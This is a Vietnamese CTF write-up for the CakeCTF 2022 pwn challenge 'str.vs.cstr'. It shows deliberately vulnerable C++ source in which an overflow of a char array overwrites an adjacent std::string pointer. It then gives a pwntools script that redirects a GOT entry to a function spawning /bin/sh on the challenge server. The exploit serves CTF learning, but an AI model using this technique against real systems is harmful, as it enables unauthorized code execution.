


# 🎂str.vs.cstr (Pwn)

<figure><figcaption><p>Cheksec </p></figcaption></figure>

Bài này đã đưa sẵn mã nguồn để ta phân tích


```c
#include <array>
#include <iostream>

struct Test {
  Test() { std::fill(_c_str, _c_str + 0x20, 0); }
  char* c_str() { return _c_str; }
  std::string& str() { return _str; }

private:
  __attribute__((used))
  void call_me() {
    std::system("/bin/sh");
  }

  char _c_str[0x20];
  std::string _str;
};

int main() {
  Test test;

  std::setbuf(stdin, NULL);
  std::setbuf(stdout, NULL);

  std::cout << "1. set c_str" << std::endl
            << "2. get c_str" << std::endl
            << "3. set str" << std::endl
            << "4. get str" << std::endl;

  while (std::cin.good()) {
    int choice = 0;
    std::cout << "choice: ";
    std::cin >> choice;

    switch (choice) {
      case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;

      case 2: // get c_str
        std::cout << "c_str: " << test.c_str() << std::endl;
        break;

      case 3: // set str
        std::cout << "str: ";
        std::cin >> test.str();
        break;

      case 4: // get str
        std::cout << "str: " << test.str() << std::endl;
        break;

      default: // otherwise exit
        std::cout << "bye!" << std::endl;
        return 0;
    }
  }
  
  return 1;
}

```


Bài này khá dễ =]].  Nhìn qua ta thấy chỉ cần ghi đè \_str thành một địa chỉ nào đó( buffer overflow ở case 1 ) rồi ghi giá trị ở case 3.

<figure><figcaption></figcaption></figure>

<figure><figcaption><p>ở đây mình ghi đè thành 0x4242424242424242 nên bị seg fault.</p></figcaption></figure>

Nhưng khoan, rút cuộc C++ string hoạt động như thế nào ? Sao lại chỉ cần ghi đè mỗi 8 byte đầu là được :thinking:

Sau nhiều lần search google và debug mình thấy...

<figure><figcaption></figcaption></figure>

... 8 byte đầu sẽ là con trỏ đến mảng kí tự, 8 byte sau là size, 8 byte tiếp nữa là capacity ( đọc qua có vẻ là kích thước được cấp phát).

&#x20;Tiếp tục vào vấn đề, giờ mình sẽ chọn ghi đè char\_ostream\_got trỏ về call\_me.


```python
from pwn import *
from time import sleep
offset=0x20
call_me=0x00000000004016de
char_ostream_got=0x404048
e=ELF("./chall")
p=remote("pwn1.2022.cakectf.com",9003)
p.sendline(b"1")
sleep(1)
p.sendline(b"A"*offset+p64(char_ostream_got))
sleep(1)
p.sendline(b"3")
sleep(1)
p.sendline(p64(call_me))
p.interactive()

```


<figure><figcaption></figcaption></figure>

Flag `CakeCTF{HW1: Remove "call_me" and solve it / HW2: Set PIE+RELRO and solve it}`

Hmm, có lẽ lúc nào đó mình sẽ thử làm như flag này nói :thinking:.

Vài trang để tìm hiểu về C++ string:




